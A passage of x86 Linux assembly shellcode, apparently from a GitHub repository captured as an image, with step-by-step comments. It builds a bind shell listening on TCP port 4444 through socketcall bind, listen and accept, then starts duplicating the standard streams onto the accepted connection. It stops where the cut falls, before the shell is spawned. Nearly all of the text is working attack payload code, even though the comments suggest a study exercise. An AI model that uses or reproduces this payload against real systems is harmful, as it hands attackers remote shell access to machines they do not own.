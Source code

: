    
        ; Save the returned listening socket file descriptor
        xor edi, edi
        mov edi, eax
    
        ;; Bind the socket
        ;; Use socketcall to call down to socket
        xor eax, eax
        mov al, 0x66 ; socketcall syscall
        xor ebx, ebx
        mov bl, 0x2 ; sys_bind syscall number
    
        ;; Start building the sockaddr_in structure
        ;; int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
        ; sin_addr=0 (INADDR_ANY)
        ; INADDR_ANY Accept on any interface 0x00000000
        xor ecx, ecx
        push ecx
    
        ;; 4444 is 0x115c in little endian. Network byte order is
        ;; Big endian so we swap the byte ordering
        push word 0x5c11 ; sin_port=4444 (network byte order)
        push word bx     ; sin_family=AF_INET (0x2)
        mov ecx, esp     ; move pointer to sockaddr_in structure
    
        ;; In the initial code we use sizeof to derive the addrlen
        ;; If we print the results of that we get 0x10 which is 16 bytes
        push 0x10 ;addrlen=16
        push ecx  ;struct sockaddr pointer
        push edi  ;sockfd
        mov ecx, esp ;save pointer to bind() args
        int 0x80 ; call sys_bind
    
        ;; Call listen and prepare for accepting connections
        xor eax, eax
        mov al, 0x66 ; socketcall syscall
        xor ebx, ebx
        mov bl, 0x4 ; sys_listen syscall number
    
        ;; Place listen's arguments on the stack
        xor ecx, ecx
        push ecx ; backlog we set to zero
        push edi ; push the socket file descriptor
        mov ecx, esp ; place a pointer to the args in ecx
        int 0x80 ; call sys_listen
    
        ;; Call accept
        xor eax, eax
        mov al, 0x66 ; socketcall syscall
        xor ebx, ebx
        mov bl, 0x5 ; sys_accept syscall number
        ;; Place accept's arguments on the stack
        ;; We don't need a peer socket???... so we
        ;; use nulls for addrlen and sockaddr struct
        xor ecx, ecx
        push ecx ; Push NULL (0x00000000) for addrlen
        push ecx ; Push NULL (0x00000000) for sockaddr struct
        push edi ; Push the listening sockets file descriptor
        mov ecx, esp ; place a pointer to the args in ecx
        int 0x80 ; call sys_accept
    
        ;; Save the returned connection socket file descriptor
        xor ebx, ebx
        mov ebx, eax
    
        ;; Call dup2 for stdin, stdout, and stderr in a loop
        xor ecx, ecx
        mov cl, 0x2 ;loop counter
